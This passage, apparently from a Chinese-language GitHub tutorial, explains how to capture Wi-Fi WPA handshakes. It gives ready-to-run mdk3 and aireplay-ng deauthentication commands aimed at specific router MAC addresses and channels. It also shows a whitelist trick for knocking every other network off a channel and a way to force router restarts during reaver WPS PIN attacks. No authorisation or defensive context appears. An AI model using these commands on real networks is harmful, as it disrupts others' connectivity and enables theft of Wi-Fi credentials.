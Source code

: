   ![得到握手包](得到握手包.png)
 * `sudo mdk3 mon0 d -n B8:F8:83:76:92:69 -c 9` ([install & use mdk3](#mdk3))
    运行完这个命令出现`Network is down`之后马上在minidwep上点“Launch”即可抓到包。
    比如你要用mdk3 mon0 d -c 命令:
    那就要先添加黑名单或者白名单，-c后面是信道，添加白名单的话不会攻击白名单mac或者添加黑名单mac只攻击这个ssid
    如`echo mac地址 > withelist`
    `mdk3 mon0 d -w withelist -c 11`，这样信道11的ssid除了白名单外都会被攻击
    此方法也适用于reaver一直重复一个pin情况，可以让客户端重启路由器。
 * `aireplay-ng --deauth 15 -a DC:EE:06:96:B7:B8 wlan0mon`
     ![aireplay-ng](aireplay-ng.png)
     可以看到,这时握手包已被正常抓获,此时监听也就可以断开了,注意观察终端的右上角,那个带有handshake标志的就是握手包的意思